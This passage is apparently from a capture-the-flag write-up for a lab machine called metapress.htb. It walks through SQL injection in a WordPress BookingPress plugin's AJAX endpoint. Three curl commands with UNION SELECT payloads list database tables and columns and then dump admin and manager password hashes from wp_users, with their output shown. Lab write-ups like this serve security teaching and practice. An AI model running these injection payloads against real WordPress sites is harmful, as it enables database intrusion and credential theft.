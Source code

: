 Ok with this information we know the database is called blog.

```shell
curl -i -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data "action=bookingpress_front_get_category_services&_wpnonce=64c0de5bf7&category_id=33&total_service=-7502) UNION SELECT 1,1,1,1,1,1,1,1,TABLE_NAME from INFORMATION_SCHEMA.TABLES -- -" | tail -n 1 | tr , '\n' | grep -i user

"bookingpress_servicedate_created":"USER_PRIVILEGES"
"bookingpress_servicedate_created":"USER_STATISTICS"
"bookingpress_servicedate_created":"user_variables"
"bookingpress_servicedate_created":"wp_users"
"bookingpress_servicedate_created":"wp_usermeta"
```

Now we know the name of all tables containing the word user. (**NOTE:** I'm not using the where statement since it doesn't seem to work however I'm supplying that with the grep command)

```shell
curl -i -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data "action=bookingpress_front_get_category_services&_wpnonce=64c0de5bf7&category_id=33&total_service=-7502) UNION SELECT 1,1,1,1,1,1,1,1,COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS -- -" | tail -n 1 | tr , '\n' | grep -i user

"bookingpress_servicedate_created":"USER"
"bookingpress_servicedate_created":"CPU_USER"
"bookingpress_servicedate_created":"user_login"
"bookingpress_servicedate_created":"user_pass"
"bookingpress_servicedate_created":"user_nicename"
"bookingpress_servicedate_created":"user_email"
"bookingpress_servicedate_created":"user_url"
"bookingpress_servicedate_created":"user_registered"
"bookingpress_servicedate_created":"user_activation_key"
"bookingpress_servicedate_created":"user_status"
"bookingpress_servicedate_created":"bookingpress_wpuser_id"
"bookingpress_servicedate_created":"bookingpress_user_login"
"bookingpress_servicedate_created":"bookingpress_user_status"
"bookingpress_servicedate_created":"bookingpress_user_type"
"bookingpress_servicedate_created":"bookingpress_user_firstname"
"bookingpress_servicedate_created":"bookingpress_user_lastname"
"bookingpress_servicedate_created":"bookingpress_user_email"
"bookingpress_servicedate_created":"bookingpress_user_phone"
"bookingpress_servicedate_created":"bookingpress_user_country_phone"
"bookingpress_servicedate_created":"bookingpress_user_created"
"bookingpress_servicedate_created":"user_id"
```

Ok with this information we should be able to dump the credentials like this

```shell
curl -i -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data "action=bookingpress_front_get_category_services&_wpnonce=64c0de5bf7&category_id=33&total_service=-7502) UNION SELECT 1,1,1,1,1,1,user_pass,user_login,1 from blog.wp_users -- -" | tail -n 1 | tr , '\n' | grep -E 'description|position'
"bookingpress_service_description":"$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV."
"bookingpress_service_position":"admin"
"bookingpress_service_description":"$P$B4aNM28N0E.tMy\/JIcnVMZbGcU16Q70"
"bookingpress_service_position":"manager"
```
